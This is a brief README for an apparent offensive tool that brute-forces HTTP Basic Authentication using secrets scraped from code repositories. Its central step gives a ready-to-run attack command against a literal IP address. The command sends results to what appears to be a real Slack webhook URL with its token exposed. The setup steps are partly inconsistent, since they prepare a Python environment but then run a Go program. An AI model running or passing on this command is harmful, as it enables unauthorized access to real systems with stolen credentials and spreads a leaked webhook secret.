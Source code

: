 # Basic Authentication Bruteforcing of WFUZZ endpoints with secrets obtained from Repo-Supervisor

1. `cd` into the `wfuzz-basicauth-bruteforcer` directory.

2. Complete the `.env.sample` file in the `wfuzz-basicauth-bruteforcer` directory with the appropriate values and copy it to `.env`.

3. Activate the virtual environment and install `pycurl`:
    * `virtualenv env`
    * `. env/bin/activate`
    * `pip install pycurl`

4. Now, in order to bruteforce the basic authentication mechanism with the data retrieved from `wfuzz` and `git-all-secrets`, type `go run bruteforce.go -target 104.198.4.57 -slackHook https://hooks.slack.com/services/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`.

5. Come out of the virtual environment by typing `deactivate`.

6. We should get back some results in Slack.
